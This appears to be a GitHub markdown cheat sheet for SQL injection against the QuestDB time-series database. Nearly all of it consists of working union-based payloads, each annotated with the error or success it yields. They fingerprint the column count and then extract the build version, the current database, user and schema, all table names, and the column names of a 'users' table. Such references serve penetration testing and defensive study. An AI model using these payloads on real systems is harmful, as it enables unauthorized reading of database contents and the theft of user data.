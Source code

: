 # QuestDB Injection :
    [QuestDB](https://questdb.io "QuestDB") add by Meisam Monsef [Telegram ID](https://t.me/meisamrce "Telegram")

## Comments:

    --comment (No space is needed)
    /*comment*/

## Testing Injection : 
        '
        1'  #  get error unclosed quoted string?

## Union Based:

        1' order by 100--                             #order column position is out of range [max=8]
        1' order by 8--                               #no error 
        1' union SELECT 1--                           #queries have different number of columns
        1' union SELECT 1--                           #queries have different number of columns
        1' union SELECT 1,2,3,4,5,6,7,8--             #error queries have different number of columns
        1' union SELECT 1,2,3,4,5,6,7,8--             #error unsupported cast [column=8, from=INT, to=TIMESTAMP]
        1' union SELECT 1,2,3,4,5,6,7,null--          #success

## Version:

         1' union SELECT build(),2,3,4,5,6,7,null--'
         
## Get the current database:

         1' union SELECT current_database(),2,3,4,5,6,7,null--'

## Get the current user:

         1' union SELECT current_user(),2,3,4,5,6,7,null--'

## Get the current schema:

         1' union SELECT current_schema(),2,3,4,5,6,7,null--'

## Get All Tables:

        1' union SELECT table_name,2,3,4,5,6,7,null from tables()--'        #get all none WAL tables
        1' union SELECT table_name,2,3,4,5,6,7,null from all_tables()--'    #get all none WAL tables
        1' union SELECT name,2,3,4,5,6,7,null from wal_tables()--'          #get all WAL tables

## Get columns Name for table:

        1' union SELECT column,2,3,4,5,6,7,null from table_columns('users')--'                   #get error table and column names that are SQL keywords
        1' union SELECT "column",2,3,4,5,6,7,null from table_columns('users')--'                 #success
        1' union SELECT string_agg("column",','),2,3,4,5,6,7,null from table_columns('users')--' #get all columns name
